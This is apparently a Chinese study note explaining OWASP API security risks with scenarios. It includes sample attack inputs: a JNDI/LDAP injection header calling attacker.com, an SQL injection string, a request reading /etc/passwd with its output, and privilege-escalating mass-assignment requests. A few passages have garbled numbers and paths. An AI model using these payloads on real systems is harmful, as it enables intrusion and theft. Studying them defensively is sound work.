

## 对象级别授权失效（水平越权）

攻击者就可以通过改变请求中的对象ID来绕过授权限制，从而获取敏感数据或者完全掌控账户。这个漏洞在基于API的应用程序中非常普遍，因为服务器通常无法跟踪完整的用户状态，而是依赖于请求参数中的对象ID来决定哪些对象可以被用户访问。

- 接口参数可遍历
  - 通过参数控制的访问对象，如针对GET /system/{user}/info/接口的通信中，系统设计上每个用户只能访问自己的内容，但如果授权不当，攻击者可以遍历{user}参数，越权批量访问他人数据。

**eg：**

在线文档存储服务允许用户上传、查看、编辑和删除他们的文件。当用户想要删除一个文件时，系统会将对应文件的ID传递给API，以便系统确定要删除哪个文件。

```http
POST /graphql
{
  "operationName":"deleteReports",
  "variables":{
    "reportKeys":["<DOCUMENT_ID>"]
  },
  "query":"mutation deleteReports($siteId: ID!, $reportKeys: [String]!) {
    {
      deleteReports(reportKeys: $reportKeys)
    }
  }"
}
```

因为在线文档存储服务在删除文件时只依赖文件的ID，没有进行其他的权限检查，所以用户有可能会能够删除其他用户上传的文档。也就是说，如果攻击者知道其他用户文档的ID，那么他们就可以利用这个漏洞来删除其他用户的文件。


## 身份认证失效

破坏或伪造身份验证令牌，或者利用漏洞来盗用其他用户的身份。

- 明文密码传输

  - hash

- 薄弱的API密钥，密钥又不经常轮换

  - 暴力破解、birthday attack

- 使用GET参数发送敏感信息的API端点

  - connection.setRequestMethod("GET");//发起请求,具体的请求方式视具体情况而定

- 无效的令牌访问验证/JWT访问令牌缺少验证

  - token ====> header.payload.singnature

    令牌的组成： 标头（header） 、有效负荷（payload） 、签名（singnature）

    JWT通常所示：xxxxxx.yyyyyy.zzzzzz

  - header: 标头通常由两部分组成即令牌的类型（JWT）和使用的算法类型。【通常使用Base64编码组成JWT结构的第一部分】

    ```json
    {
      "alg":"HS256",
      "typ":"JWT"
    }
    ```

  - payload: 有效负载，存储用户的相关的信息和其他数据的声明。【通常使用Base64编码组成JWT结构的第二部分】

    ```json
    {
      "username":"qiumin",
      "password":"123456"
    }
    ```

  - singnature: 签名，与前面两个部分生成JWT，该签名不能让其他人知道，是保证token不被串改，保证信息的安全。

    【通常使用Base64编码组成JWT结构的第三部分】

    ```json
    header+"."+payload+"."+singnature ---> 组成唯一的token
    ```

    

- 会话ID暴露在URL里

  - URL重写：

    当客户不接受cookie时候，服务器可以跟踪url重写作为会话跟踪基础，URL 重写涉及添加数据、会话 ID、容器解析 URL 路径从而请求与会话相关联。会话 ID 必须被编码为 URL 字符串中的一个路径参数。

    参数的名字必须是 **jsessionid**。下面是一个 URL 包含编码的路径信息的例子：

    http://www.myserver.com/catalog/index.html;jsessionid=1234

    PS：url中紧跟servle或jsp文件名，加;jsessionid=sessionId，其中sessionId由HttpSession.getId()得到。URL重写实现会话跟踪，要保证每个页面都必须使用[Servlet](https://so.csdn.net/so/search?q=Servlet&spm=1001.2101.3001.7020)或JSP动态页面。因为附加在URL上的SessionID是动态产生的，所以对于静态页面的跳转，URL重写机制无能为力。
    
    


- 会话固定（session fixation）的攻击

  - 会话固定（Session fixation）是一种诱骗受害者使用攻击者指定的会话标识（SessionID）的攻击手段。这是攻击者获取合法会话标识的最简单的方法。（让合法用户使用黑客预先设置的sessionID进行登录，从而是Web不再进行生成新的sessionID，从而导致黑客设置的sessionId变成了合法桥梁。）

    Servlet容器允许URL地址后面增加 ;JSESSIONID=... 的方式携带session信息。

    攻击步骤

    1.攻击者打开一个登录页面

    2.服务端会返回攻击者一个sessionId = 123xyz

    3.攻击者发送一个伪装连接并带上sessionId

    4.然后正常用户接到后，点击进行登录

    5.这时候服务端sessionID=123xyz的session已经存在

    6.这时，有了这个sessionID ,攻击者就可以正大光明的访问漏洞系统了。

    攻击原理: 登录后的sessionId和登录前的SessionId 没有变化

    


- 会话ID没有超时限制，或者用户会话或身份验证令牌特别是单点登录令牌在用户注销时没有失效。

  缺省的会话超时由[servlet](https://baike.baidu.com/item/servlet/477555?fromModule=lemma_inlink)容器定义,在[HttpSession](https://baike.baidu.com/item/HttpSession/3159840?fromModule=lemma_inlink)接口上调用getMaxInactiveIntervalfangaf得到该值.开发人员可以使用HttpSession接口上的setMaxInactiveInterval方法改变该值.时间单位是秒.若设置为-1,表示该会话永不过期.

  

**场景案例：**

用户要更新他们账户关联的电子邮件地址，那么客户端需要发送一个特殊的API请求：

```cpp
PUT /account
Authorization: Bearer <token>
{ "email": "<new_email_address>" }
```

由于API没有要求用户提供当前的密码来确认身份，攻击者就有可能通过窃取身份验证令牌来伪装成其他用户。他们也可能会在更新受害者账户的电子邮件地址时实施攻击，从而接管受害者的账户。


## 对象属性级别授权失效

对象属性级别授权失效是指在访问控制系统中，授权规则没有按照预期的要求来实现，这可能会导致安全漏洞。通常，在访问控制系统中，对象属性级别授权非常重要，它可以确保用户只能够访问他们具有权限的资源和信息。如果这个授权失效了，攻击者就有可能访问到他们没有权限访问的信息或资源，从而对系统构成威胁。

- 单次返回类型过多

  - 过度数据泄露是指 API 端点响应的信息多于满足请求所需的信息。

    当存在此漏洞时，可能相当于向某人询问其姓名，并让他们使用其姓名，出生日期，电子邮件地址，电话号码以及他们认识的每个人的身份进行响应。

    假设我请求了自己的帐户信息，并提出了以下请求：

    ```http
    GET /api/v3/account?name=Cloud+Strife
    ```

    ```json
    response:
    {
     "id": "5501",
     "first_name": "Cloud",
     "last_name": "Strife",
     "privilege": "user",
     "representative": [
     "name": "Don Corneo",
     "id": "2203"
     "email": "dcorn@gmail.com",
     "privilege": "super-admin"
     "admin": true
     "two_factor_auth": false,
     }
    ```

- 脱敏策略不一致

  - 伪脱敏指的是敏感信息仅在前端展示界面脱敏，未在服务器后端进行脱敏，一旦流量被截获，则可能造成敏感信息泄漏。脱敏策略不一致指的是对同一类敏感信息，未采取一致的脱敏策略，导致将同一条信息不同的未脱敏部分进行组合后仍可得到未脱敏的数据，例如A界面展示王五的手机号为123\**789，而B界面展示王五的手机号为123456**，则进行组合后可以得到王五的完整手机号123456789。
  
  - **无效化**
  
    无效化方案在处理待脱敏的数据时，通过对字段数据值进行 截断、加密、隐藏 等方式让敏感数据脱敏，使其不再具有利用价值。一般采用特殊字符（*等）代替真值，这种隐藏敏感数据的方法简单，但缺点是用户无法得知原数据的格式，如果想要获取完整信息，要让用户授权查询。
    
  
    ##### **随机值**
  
    随机值替换，字母变为随机字母，数字变为随机数字，文字随机替换文字的方式来改变敏感数据，这种方案的优点在于可以在一定程度上保留原有数据的格式，往往这种方法用户不易察觉的。
  
    我们看到 name 和 idnumber 字段进行了随机化脱敏，而名字姓、氏随机化稍有特殊，需要有对应姓氏字典数据支持。
    
  
    ##### **数据替换**
  
    数据替换与前边的无效化方式比较相似，不同的是这里不以特殊字符进行遮挡，而是用一个设定的虚拟值替换真值。比如说我们将手机号统一设置成 “13651300000”。
    
  
    ##### **对称加密**
  
    对称加密是一种特殊的可逆脱敏方法，通过加密密钥和算法对敏感数据进行加密，密文格式与原始数据在逻辑规则上一致，通过密钥解密可以恢复原始数据，要注意的就是密钥的安全性。
    
  
    ##### **平均值**
  
    平均值方案经常用在统计场景，针对数值型数据，我们先计算它们的均值，然后使脱敏后的值在均值附近随机分布，从而保持数据的总和不变。
  
    
    原始数据
  
    对价格字段 price 做平均值处理后，字段总金额不变，但脱敏后的字段值都在均值 60 附近。
  
    
    平均值
  
    ##### **偏移和取整**
  
    这种方式通过随机移位改变数字数据，偏移取整在保持了数据的安全性的同时保证了范围的大致真实性，比之前几种方案更接近真实数据，在大数据分析场景中意义比较大。
  
    比如下边的日期字段create_time中 2020-12-08 15:12:25 变为 2018-01-02 15:00:00。取整
  
    
    


- 批量分配
  - 当API将客户端提供的数据绑定到应用程序，又没有适当的过滤技术时，就会发生批量分配。开发人员使用绑定方法，通过函数将用户输入与内部对象和代码变量绑定，以加快开发周期。攻击者可以通过评估API结构和对象关系，查找批量分配漏洞，以更新和修改旨在隐藏起来的对象属性。一旦攻击者修改了敏感对象的属性，往往会提升权限、绕过安全检查并篡改敏感数据。
  
  - 将属性值设置**user.is_admin**和**user.is_manager**来提升权限
  
    

**场景案例：**

在基于短视频的社交网络中，有一些限制性内容需要进行过滤和审查。即使上传的视频被系统拦截了，用户还是可以通过以下API请求来修改视频的描述信息。

```cpp
PUT /api/video/update_video
{"description":"a funny video about cats"}
{"description":"a funny video about cats","blocked":false}
```

这就意味着，如果用户上传不良内容的视频并通过修改描述信息的方式绕过系统审查。


## 资源消耗无限制

攻击者可以发送大量请求来消耗API服务器的资源，甚至通过暴力破解方式来突破安全措施，从而造成损失。

- DoS攻击
  - API请求需要使用网络、CPU、内存和存储等资源，如果没有对客户端/用户可以请求的资源大小或数量进行限制，就可能会导致API服务器性能下降，最终引起拒绝服务攻击（DoS）。

**场景案例：**

攻击者会发送一个POST请求到/api/v1/images，上传大图片。API在收到这个请求后，会创建多个缩略图，每个缩略图大小不同。然而，由于上传的图片太大了，API在创建缩略图的过程中用尽了所有可用的内存，导致系统变得无响应。


## 功能级授权失效（垂直越权）

攻击者可以**利用漏洞**来发送一些本不允许他们访问的API请求，这可能会导致一些合法的API请求被暴露给未经授权的匿名用户或普通用户。

- API有着固定的结构和操作方式，攻击者更容易发现其中的缺陷
  - 将HTTP方法从GET替换为PUT
  - 普通用户修改为api/admininfo，调用管理类API

**场景案例：**

在某些只允许邀请用户注册的应用程序中，移动应用程序会触发一些API调用，以便用户能够加入。这个响应会返回一个包含邀请详细信息（如用户角色和电子邮件）的JSON文件，攻击者会复制这个请求，并改变HTTP方法和参数。攻击者就利用这个漏洞来冒充管理员身份，并通过发送新的邀请来获取管理员权限。

```cpp
POST /api/invites/new
{"email":"attacker@somehost.com","role":"admin"}
```

最后攻击者使用操纵的请求来创建自己的管理员帐户，并获得对系统的完全访问权限。


## 访问敏感业务流无限制

黄牛抢购、恶意占座（机票）、营销活动薅羊毛等，编写攻击脚本等方式，对API接口发起的自动化攻击

OWASP也针对性提出了应对方案，包括：**设备指纹、人机识别（比如验证码）、行为检测、Tor和常见代理IP检测等**。

- 撞库

  - 撞库是黑客通过收集互联网已泄露的用户和密码信息，生成对应的字典表，尝试批量登录其他网站后，得到一系列可以登录的用户。很多用户在不同网站使用的是相同的帐号密码，因此黑客可以通过获取用户在A网站的账户从而尝试登录B网址，这就可以理解为撞库攻击。

- 爬虫

  - 防爬技术一般都会对网络性能和用户体验带来较大影响，所以比较经济的方式是针对高危接口和页面进行防爬。应用的页面和接口不断变化，攻击者也可能通过摸索不断发现新的有爬取价值的页面和接口。一般企业的业务量如果比较大，爬虫行为就会隐藏在大批量流量中，从总量上看很难把爬虫的流量给区分出来。
  - 通过对涉敏接口的梳理和定向监控分析，就可以发现针对具体页面和接口的爬虫，以及他们获取的敏感数据类型和内容，就能在页面和接口一级，比较有针对性的对抗爬虫，并且通过爬虫获取的数据类型，可以更全面从攻击者视角了解自己透出数据的真实风险来调整自己的数据安全保护策略（比如以前不知道用户ID的透出风险，看见大量爬虫爬取用户ID，就应该知道用户ID也是有较高风险的数据需要保护了）。

- 研发窃数后门风险

  - 必须以某种方式与其他终端节点相连——由于后门的利用都是从其他节点进行访问，因此必须与目标机使用双绞线、光纤维、串/并口、蓝牙、红外等设备在物理信号上有所连接才可以对端口进行访问。只有访问成功，双方才可以进行信号交流，攻击方才有机会进行入侵。
  - 目标机默认开放的可供外界访问的端口必须在一个以上——因为一台默认无任何端口开放的机器是无法连接通信的，而如果开放着的端口外界无法访问，则同样没有办法进行入侵。
  - 目标机存在程序设计或人为疏忽，导致攻击者能以权限较高的身份执行程序。并不是任何一个权限的帐号都能够被利用的，只有权限达到操作系统一定要求的才[允许](https://baike.baidu.com/item/允许?fromModule=lemma_inlink)[执行](https://baike.baidu.com/item/执行/3012?fromModule=lemma_inlink)修改[注册表](https://baike.baidu.com/item/注册表?fromModule=lemma_inlink)，[修改](https://baike.baidu.com/item/修改?fromModule=lemma_inlink)[log](https://baike.baidu.com/item/log/1775292?fromModule=lemma_inlink)[记录](https://baike.baidu.com/item/记录/14312145?fromModule=lemma_inlink)等相关[修改](https://baike.baidu.com/item/修改?fromModule=lemma_inlink)。
  
  

## 服务器端请求伪造

SSRF漏洞成因：

（1）服务端提供了从其他服务器应用获取数据的功能；

（2）服务端对目标地址做过滤与限制 。

攻击目标：一般情况下 ， SSRF攻击的目标是外网无法访问的内部系统（正因为请求是由服务端发起的，所以服务端能请求到与自身相连而与外网隔离的内部系统）。

- 端口扫描（扫描内网）

- 攻击Web应用进行指纹识别及其中的漏洞

  - **工具**（debian/ubuntu）：**whatweb**； **wafw00f**

- 如果PHP安装了expect扩展，可以通过expect协议执行系统命令

  - expect:// — 处理交互式的流

    该封装协议默认未开启

    为了使用 expect:// 封装器，必须安装 » PECL 上的 » Expect 扩展。

    用法

    ```js
    expect://command
    ```

- dos攻击

- file 协议暴力枚举敏感文件

  - 文件URI的形式为

    ```js
    file：// host / path1
    ```

    host是可以在其上访问路径的系统的标准域名
    path是格式为directory / directory /…/ name的分层目录路径。

    


**场景案例**：百度识图功能。

用户可以从本地或URL的方式获取图片资源，交给百度识图处理。如果提交的是URL地址，该应用就会通过URL寻找图片资源。如果Web应用开放了类似于百度识图这样的功能，并且对用户提供的URL和远端服务器返回的信息没有进行合适的验证或者过滤，就可能存在“请求伪造”的缺陷。


## 安全配置错误

在对应用程序、框架、应用程序服务器、web服务器、数据库服务器等执行安全配置时，由于配置不当导致的漏洞。可以不经授权就可以访问某些系统数据或使用系统功能。

- 使用了有安全缺陷的版本
  - 如果 API 的支持安全配置揭示了未修补的漏洞，则攻击者有可能利用已发布的漏洞轻松“pwn”API 及其系统。
- 没有修改默认的帐户密码
  - 攻击者可以使用这些凭据代入该帐户的角色。这可能允许他们访问敏感信息或管理功能。

- 密码、会话ID和其他认证凭据使用未加密连接传输

  - 任何向使用者提供敏感信息的 API 都应使用传输层安全性 （TLS） 来加密数据。即使 API 仅在内部、私有或合作伙伴级别提供，使用 TLS（加密 HTTPS 流量的协议）也是确保 API 请求和响应在通过网络传递时受到保护的最基本方法之一。配置错误或缺少传输加密可能会导致 API 用户以明文形式跨网络传递敏感的 API 信息。然后攻击者可以使用MITM攻击来利用它。

- 未强制执行HTTPS
  - 不必要的 HTTP 方法，则应用程序无法正确处理这些方法或导致敏感信息泄露的风险会增加。

- 错误的标头

  - API 提供程序使用标头为使用者提供处理响应和安全要求的说明。配置错误的标头可能导致敏感信息泄露、降级攻击和跨站点脚本攻击。

  - 例如，采用以下响应：

    ```http
    HTTP/ 200 OK
    --snip--
    X-Powered-By: VulnService 1.11 // reveal backend tech => search exploits
    X-XSS-Protection: 0 // could be changed to 1
    X-Response-Time: 566.43
    //If the X-Response-Time header has a consistent response time for nonexistent records, for example, but increases 
    // its response time for certain other records, this could be an indication that those records exist.
    HTTP/UserA 404 Not Found
    --snip--
    X-Response-Time: 25.5
    HTTP/UserB 404 Not Found
    --snip--
    X-Response-Time: 25.5
    HTTP/UserC 404 Not Found
    --snip--
    X-Response-Time: 510.00
    ```

    在这种情况下，UserC 的响应时间值是其他资源的响应时间的 20 倍。由于样本量如此之小，很难明确地断定 UserC 存在。

    例如，你知道像这样的虚假帐户的平均X响应时间为ms。你还知道，您现有的帐户 /user/account/1021 收到的 X 响应时间。如果您随后发送了请求，强制所有帐号从x到x，您可以查看结果并查看哪些帐号导致响应时间大幅增加。/user/account/thisdefinitelydoesnotexist87625.5510.0010002000
    

- 未净化处理的输入导致数据受损

  - 缺少输入判断清理，攻击者将恶意负载上传到服务器
  - 如果使用上传端点将上传的文件传递到 Web 目录，则它可能允许上传脚本。导航到文件所在的 URL 可以启动脚本， 导致对 Web 服务器的直接外壳访问。

- 跨域资源共享

  - 跨源资源共享 (CORS) （或通俗地译为跨域资源共享）是一种基于HTTP 头的机制，该机制通过允许服务器标示除了它自己以外的其它origin（域，协议和端口），这样浏览器可以访问加载这些资源。跨源资源共享还通过一种机制来检查服务器是否会允许要发送的真实请求，该机制通过浏览器发起一个到服务器托管的跨源资源的"预检"请求。在预检中，浏览器发送的头中标示有HTTP方法和真实请求中会用到的头。

  - 比如说，假如站点 http://foo.example 的网页应用想要访问 http://bar.other 的资源。http://foo.example 的网页中可能包含类似于下面的 [JavaScript](https://so.csdn.net/so/search?q=JavaScript&spm=1001.2101.3001.7020) 代码：

    ```javascript
    var invocation = new XMLHttpRequest();
    var url = 'http://bar.other/resources/public-data/';
    
    function callOtherDomain() {
      if(invocation) {
        invocation.open('GET', url, true);
        invocation.onreadystatechange = handler;
        invocation.send();
      }
    }
    ```




- 敏感资源没有做访问控制
  - 应用服务器程序附带的示例应用程序在生产环境中没有删除，示例应用程序本身具有安全缺陷，可能被攻击者利用。假设示例应用程序是管理控制台并且默认帐户密码没有更改的情况下，攻击者可以很轻松使用默认帐户密码登录并管理应用服务器程序。
  - Web 服务器没有禁用目录遍历，攻击者可以通过遍历目录很容易得获取到服务器上的数据。
  - 应用程序将详细的错误消息(例如堆栈信息)返回给用户，这可能会暴露敏感信息或潜在安全问题。

- 注入

  - 当请求传递到 API 的支持基础结构并且 API 提供程序不筛选输入以删除不需要的字符（此过程称为输入清理）时，存在注入缺陷。详细的错误消息、HTTP 响应代码和意外的 API 行为都可能是您可能发现了注入缺陷的线索。
  - API 可能会将该有效负载直接传递到后端 SQL 数据库，其中 OR 1=0 语句将失败（因为 1 不等于 0），从而导致一些 SQL 错误：

  ```http
  POST /api/v1/register HTTP 1.1
  Host: example.com
  --snip--
  {
  "Fname": "hAPI",
  "Lname": "Hacker",
  "Address": "' OR 1=0--",
  }
  ```

  - 注入漏洞通常辅以其他漏洞，例如输入清理不良。在以下示例中，您可以看到一种代码注入攻击，该攻击使用 API GET 请求来利用弱查询参数。在这种情况下，弱查询参数将请求的查询部分中的任何数据直接传递到底层系统，而不先对其进行清理：以下响应正文显示 API 端点已纵为显示主机的 /etc/passwd 文件，从而显示系统上的用户：

    GET http://10.10.78.181:5000/api/v1/resources/books？show=/etc/passwd

  ```
  root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/dev:/usr/sbin/nologin
  sync:x:4:65534:sync:/bin:/bin/sync
  games:x:5:60:games:/usr/games:/usr/sbin/nologin
  man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
  lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
  mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
  news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
  ```

  

**场景案例：**

API后端服务器使用了一些流行的第三方编写的访问日志来记录用户请求和响应信息。这些记录工具支持占位符扩展和JNDI查找，每个请求都会产生一个新的日志条目，记录下请求的详细信息，例如请求时间、请求类型、请求者IP地址等。这些日志数据可以帮助开发人员进行调试和性能优化，并且也可以用于安全审计和故障排除。

```cpp
<method> <api_version>/<path> - <status_code>
```

攻击者发出以下API请求，该请求将写入访问权限日志文件：

```cpp
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

由于日志记录实用程序的默认配置不够安全，并且网络出站策略太宽松，攻击者可以将恶意代码写入API请求中，然后通过访问日志记录工具来执行恶意代码。


## 库存管理不当

- 未下线的老版本/临时调试api
  - 存量资产管理不当是指企业没有对其现有的IT资源（包括硬件、软件、网络设备等）进行有效管理和监控。这会导致一些旧的或者不再使用的IT资源没有被及时清理，而这些资源可能存在安全漏洞，被黑客利用入侵企业系统。此外，未经管理的存量资产也可能使企业面临更高的运营成本和维护难度。
  - 当组织公开 API 时，会发生不正确的资产管理 已停用或仍在开发中。仍在开发的 API 通常不如生产 API 对应项安全。
  - 资产管理不当会导致其他漏洞，例如数据过度暴露、信息泄露、批量分配、速率限制不当和 API 注入等。
  - 您可以通过密切关注仓库中过时的 API 文档、更改日志和版本历史记录来发现不当的资产管理。
  - 组织通常在其终结点名称中包含版本控制信息，以区分较旧版本和较新版本，例如 等。仍在开发中的 API 通常使用诸如 .如果知道 API 现在正在使用 apiv3.org/admin 但 API 文档的一部分提到了 apiv1.org/admin，则可以尝试测试不同的端点以查看 apiv1 或 apiv2 是否仍处于活动状态。此外，组织的更新日志 可能会披露 v1 更新或停用的原因。如果您有权访问 v1，则可以测试这些弱点/v1/, /v2/, /v3//alpha/, /beta/, /test/, /uat/, and /demo/
  - 在使用文档之外，您还可以通过使用猜测、模糊测试或暴力请求来发现不正确的资产管理漏洞。观察 API 文档或路径命名方案中的模式，然后根据您的假设发出请求。
    

**场景案例：**

社交网络允许独立应用程序的开发人员与之集成，这个过程需要用户同意分享他们的个人信息。然而，社交网络和独立应用程序之间的数据流缺乏监控和限制，这使得独立应用程序可以访问用户信息，甚至是用户朋友的私人信息。

一家咨询公司建立了一个恶意应用程序，并成功地获取了270,000个用户的授权。由于这个漏洞，咨询公司能够访问50,000,000名用户的私人信息。最终，该咨询公司因为恶意目的出售了这些信息，给用户带来了巨大的隐私风险。


## API不安全使用

- 信任第三方api而不检验（供应链角度 ）


**eg：**

API与第三方服务提供商集成了用户的医疗敏感信息。数据使用HTTP通过安全链接发送请求如下：

```cpp
POST /user/store_phr_record
{ "genome": "ACTAGTAG__TTGADDAAIICCTT…" }
```

攻击者找到了一种破坏第三方API的方法，使用308重定向响应与上一个类似的请求。

```cpp
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

由于API盲目地遵循第三方重定向，攻击者可以在其中插入恶意代码。这使得API会重复发送用户的请求和敏感数据到攻击者的服务器上，而不是原来的目标服务器上。攻击者可以利用这些数据进行各种恶意行为，例如窃取用户信息、入侵企业网络等。


## 补充

#### 合作伙伴风险

- 合作伙伴违规

- 合作伙伴被攻破
- 合作伙伴离职员工风险
- 业务合规风险
- 采集涉敏数据与报备不一致
- 数据违规开放&共享
- 数据违规出境
- 接口违反最小化原则

#### 内部人员攻击风险

- 内部人员、外包员工违规滥用和窃取敏感数据
- 离职员工窃取数据风险
- 安全访问控制配置错误&失效
- 外部人员攻击风险

#### BYOD风险

- 系统违规暴露到互联网
- 业务合规风险
- 脱敏保护策略缺乏
- 页面呈现数据违反最小化原则
- 账号&权限缺乏管控，账号共用

#### 从防范缺陷角度

疑似内部接口暴露：内部接口（例如，用于内部办公、开发测试、运营管理的接口）暴露在公网。

缺乏访问限速机制：接口在应对高频访问时，缺少安全防护机制，可能导致暴力破解、恶意爬虫等。

敏感数据过度暴露：接口暴露过多的敏感数据，可能导致大规模数据泄漏。

缺乏异常处理机制：检测到程序报错信息，可能存在SQL注入、泄漏应用配置等风险。

缺乏访问控制机制：接口对不符合日常基线的访问（例如，异常地区访问）

缺乏控制机制：敏感数据接口缺乏鉴权机制

接口缺少鉴权机制：可以被未授权的访问者访问，用于获取敏感数据。
